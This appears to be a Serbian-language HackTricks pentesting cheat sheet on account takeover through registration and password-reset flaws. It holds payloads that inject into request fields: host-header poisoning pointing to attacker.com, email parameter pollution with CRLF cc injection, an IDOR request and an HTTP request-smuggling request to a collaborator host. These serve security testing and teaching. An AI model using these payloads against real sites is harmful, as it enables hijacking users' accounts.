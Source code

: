 # Registracija i Preuzimanje

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitteru** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}


## Preuzimanje Registracije

### Dupla Registracija

* Pokušajte da generišete koristeći postojeće korisničko ime
* Proverite varijacije email-a:
* velika slova
* \+1@
* dodajte tačku u email
* specijalni karakteri u imenu email-a (%00, %09, %20)
* Stavite crne karaktere posle email-a: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Enumeracija Korisničkog Imena

Proverite da li možete da otkrijete kada je korisničko ime već registrovano unutar aplikacije.

### Politika Lozinki

Kreirajući korisnika, proverite politiku lozinki (proverite da li možete koristiti slabe lozinke).\
U tom slučaju možete pokušati da bruteforce-ujete akreditive.

### SQL Injekcija

[**Proverite ovu stranicu** ](sql-injection/#insert-statement)da biste naučili kako da pokušate preuzimanje naloga ili izvučete informacije putem **SQL Injekcija** u registracionim formama.

### Oauth Preuzimanja

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### SAML Ranljivosti

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Promena Email-a

Kada se registrujete, pokušajte da promenite email i proverite da li je ova promena ispravno validirana ili možete promeniti na proizvoljne email adrese.

### Dodatne Provere

* Proverite da li možete koristiti **disposable email-ove**
* **Duga** **lozinka** (>200) dovodi do **DoS**
* **Proverite ograničenja brzine na kreiranju naloga**
* Koristite username@**burp\_collab**.net i analizirajte **callback**

## **Preuzimanje putem Resetovanja Lozinke**

### Curjenje Tokena za Resetovanje Lozinke putem Referrera <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Zatražite resetovanje lozinke na vašu email adresu
2. Kliknite na link za resetovanje lozinke
3. Ne menjajte lozinku
4. Kliknite na bilo koje 3rd party sajtove (npr: Facebook, Twitter)
5. Presretnite zahtev u Burp Suite proxy
6. Proverite da li referer header curi token za resetovanje lozinke.

### Trovanje Resetovanja Lozinke <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Presretnite zahtev za resetovanje lozinke u Burp Suite
2. Dodajte ili izmenite sledeće heder-e u Burp Suite : `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Prosledite zahtev sa izmenjenim heder-om\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Potražite URL za resetovanje lozinke na osnovu _host header-a_ kao što je: `https://attacker.com/reset-password.php?token=TOKEN`

### Resetovanje Lozinke putem Email Parametra <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR na API parametrima <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Napadač mora da se prijavi sa svojim nalogom i ode na funkciju **Promena lozinke**.
2. Pokrenite Burp Suite i presretnite zahtev.
3. Pošaljite ga na repeater tab i izmenite parametre: ID korisnika/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Slab token za resetovanje lozinke <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token za resetovanje lozinke treba da bude nasumično generisan i jedinstven svaki put.\
Pokušajte da odredite da li token ističe ili je uvek isti, u nekim slučajevima algoritam za generisanje je slab i može se pogoditi. Sledeće varijable mogu biti korišćene od strane algoritma.

* Vreme
* ID korisnika
* Email korisnika
* Ime i prezime
* Datum rođenja
* Kriptografija
* Samo brojevi
* Mala sekvenca tokena (karakteri između \[A-Z,a-z,0-9])
* Ponovna upotreba tokena
* Datum isteka tokena

### Curjenje tokena za resetovanje lozinke <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Pokrenite zahtev za resetovanje lozinke koristeći API/UI za specifičan email npr: test@mail.com
2. Istražite odgovor servera i proverite za `resetToken`
3. Zatim koristite token u URL-u kao `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Resetovanje lozinke putem kolizije korisničkog imena <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Registrujte se na sistem sa korisničkim imenom identičnim korisničkom imenu žrtve, ali sa razmacima umetnutim pre i/ili posle korisničkog imena. npr: `"admin "`
2. Zatražite resetovanje lozinke sa svojim zlonamernim korisničkim imenom.
3. Iskoristite token poslat na vaš email i resetujte lozinku žrtve.
4. Priključite se nalogu žrtve sa novom lozinkom.

Platforma CTFd je bila ranjiva na ovaj napad.\
Pogledajte: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Preuzimanje naloga putem Cross Site Scripting-a <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Pronađite XSS unutar aplikacije ili poddomena ako su kolačići ograničeni na roditeljski domen: `*.domain.com`
2. Curite trenutni **kolačić sesije**
3. Autentifikujte se kao korisnik koristeći kolačić

### Preuzimanje naloga putem HTTP Request Smuggling-a <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Koristite **smuggler** da detektujete tip HTTP Request Smuggling-a (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Kreirajte zahtev koji će prepisati `POST / HTTP/1.1` sa sledećim podacima:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` sa ciljem da otvorite preusmeravanje žrtava na burpcollab i ukradete njihove kolačiće\
3\. Finalni zahtev može izgledati ovako
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone izveštaji o eksploataciji ovog buga\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Preuzimanje naloga putem CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Kreirajte payload za CSRF, npr: “HTML forma sa automatskim slanjem za promenu lozinke”
2. Pošaljite payload

### Preuzimanje naloga putem JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token može se koristiti za autentifikaciju korisnika.

* Izmenite JWT sa drugim ID-jem korisnika / Email-om
* Proverite slab JWT potpis

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Reference

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
